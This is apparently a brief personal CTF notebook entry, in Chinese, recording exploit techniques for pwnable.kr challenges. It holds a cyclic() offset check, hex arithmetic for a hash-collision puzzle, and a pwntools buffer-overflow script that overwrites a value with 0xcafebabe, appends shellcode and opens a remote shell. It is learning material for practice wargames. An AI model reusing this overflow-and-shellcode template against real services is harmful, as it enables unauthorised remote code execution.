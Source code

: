 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：

```>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'```

```>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'```

```echo $((0x48-0x14))

52```

#### pwntools起手式

```
from pwn import *

# 0xcafebabe

r = remote('pwnable.kr', '9000')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```
